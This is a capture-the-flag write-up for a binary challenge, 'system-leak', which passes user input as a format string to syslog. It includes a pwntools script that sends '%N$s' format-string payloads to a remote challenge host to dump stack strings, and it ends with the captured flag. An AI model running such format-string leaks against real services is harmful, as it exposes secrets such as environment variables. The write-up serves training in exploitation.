 ## Challenge Description

Leak the entire system, but wait this is not zeenbleed.

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```  
$ checksec syslog  
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6  
RELRO           STACK CANARY      NX            PIE             RPATH
RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE  
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No
RUNPATH   No Symbols        No    0               4               syslog  
```  
All protections enabled! Wow! When I saw this initially I thought this will be
a hard binary to exploit. So I went on and played with ``system-write`` first,
lol. Please check that writeup for a full run-down of the binary.

The important thing to notice for this binary is the fact that ``syslog`` uses
format strings. We have an arbitrary read through format string
vulnerabilities. Since the description hints to leaking the whole system, the
initial idea I had was to leak the whole stack and hope we get some ENV
strings with the flag in them.

```c  
	printf("Enter the message to write to syslog: ");  
	fgets(local_218,0x200,stdin);  
	fgets(local_218,0x200,stdin);  
	syslog((int)local_222,local_218);  
	closelog();  
```

### Solution

The solution is just that - leaking strings from the stack for fun. We
manually try different offsets and print strings in batches. I made a really
quick, stupid script to do that:  
```py  
#!/usr/bin/env python3

from pwn import *

#target = process("./syslog")  
target = remote("35.246.203.171", 31245)

lines = []

# Play around with this offset, it might crash at certain offsets because
addresses are not dereferencible  
for i in range(120, 1600):  
   target.sendline(b"1")  
   target.sendline(b"1") # priority

   payload = "%{}$s".format(i).encode()

   target.sendline(payload)

   target.sendline(b"2")  
   target.recvuntil(b'syslog')  
   lines.append(target.recvline())  
   print(lines[-1])

print(lines)  
target.interactive()  
```

#### Flag

```CTF{ab8f8dff1ca8d424d56d3e8b41296cba0ba4e2a7985927b510fe2734dacee073}```

Original writeup (https://dothidden.xyz/defcamp_quals_2023/system-leak/).